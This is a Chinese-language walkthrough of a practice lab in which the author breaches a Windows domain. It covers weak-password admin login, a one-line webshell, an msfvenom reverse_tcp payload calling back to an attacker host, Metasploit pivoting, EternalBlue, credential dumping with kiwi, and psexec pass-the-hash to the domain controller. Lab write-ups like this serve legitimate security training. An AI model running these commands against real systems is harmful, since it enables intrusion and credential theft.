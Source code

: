 # 靶场练习

网址进入是一个phpstudy的页面，url输入phpmyadmin进入数据库

![image-20220321161750110](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220321164445.png)



或者url输入yxcms，进入yxcms页面

![image-20220321162323018](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220321164450.png)

第一种方法，写入日志：

![image-20220321162614856](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220321164456.png)

第二种方法：点击登陆->修改url为admin管理员登陆->使用弱密码admin、123456登陆

![image-20220321163809285](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220321164504.png)

在前台模板->选择上传一个模板，写入一句话木马连接

![image-20220321163945281](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220321164508.png)

![image-20220321164222585](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220321164512.png)

此时我们已经拿下这台143了嘻嘻，然后用getshell工具连接后使用终端窗口进行信息收集

ipconfig

![image-20220322134210404](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322163219.png)

查看域内的用户和所在的域

![image-20220322134239669](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322163228.png)

查看防火墙是否打开

![image-20220322135837636](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322163233.png)

（根据toby描述，上传一个arp主机扫描工具，然后arpscan.exe -t  192.168.52.0/24就可以扫描出其他主机的ip）

根据上面查找到的信息，发现主机143的DNSip为138，推测138为域控的IP，而另一个141的ip应该就是另一台主机的ip

我们利用msf先去生成一个木马文件

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.148 LPORT=4444 -f exe -o /tmp/baobao.exe    // LHOST是攻击者的监听机器，LPORT是被攻击机器监听端口，虚拟机kali要设置桥接才可以连接到内网的ip
```

 开启监听

```
use exploit/multi/handler
```

设置tcp监听

```
set payload windows/meterpreter/reverse_tcp
```

设置LHOST

```
set LHOST 10.10.10.148
```

开启

```
exploit
```

![image-20220322145428609](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322163308.png)

然后我们使用蚁剑连接到的143的终端去上传生成的木马，然后运行，就能得到反弹回来的数据（上图最后两行）



![image-20220322145501073](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322163603.png)

然后我们设置一个路由

```
run autoroute -s 192.168.52.0/24  //路由转发到内网
run autoroute -s    //查看路由
```

![image-20220322145445102](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322163600.png)

然后就可以使用永恒之蓝（auxiliary/admin/smb/ms17_010_command）去攻击141这台机器了

![image-20220322193857386](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322193857.png)

虽然可以通过永恒之蓝拿下141，但是每次都需要set command，每个命令都需要一次一次攻击

我们尝试通过socks代理去远程连接141这台机器

首先在查找socks，选择auxiliary/server/socks_proxy

![image-20220322164035409](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322164125.png)

然后show options查看配置，设置SRVHOST为127.0.0.1，SRVPORT为6666（默认1080也可以，只不过我们1080端口被占用了）然后run运行

![image-20220322163938873](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322164121.png)

然后我们重开一个终端，修改/etc/proxychains.conf文件，在最下面加上socks 127.0.0.1 6666

![image-20220322163822585](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322164116.png)

然后通过socks代理和路由连接141这台机票

![image-20220322194939373](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322194939.png)

远程连接后，需要账号和密码

![image-20220322162402528](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322163634.png)

爆破密码---->

```
load kiwi
ps
migrate -P 4196（只要选是x64就可以）
getsystem
creds_all
```

![image-20220322195300435](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322195300.png)

然后我们使用liukaifeng这个账号就可以登进去141的机器啦嘻嘻

最后一台138的域控机器，使用哈希传递的方法！

搜索psexec，选择exploit/windows/smb/psexec

![image-20220322195516033](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322195516.png)

然后show options查看配置，我们也是选择liukaifeng这个账号

![image-20220322195728241](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322195728.png)

运行就可以拿到138这台域控啦嘿嘿

![image-20220322195809568](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220322195809.png)



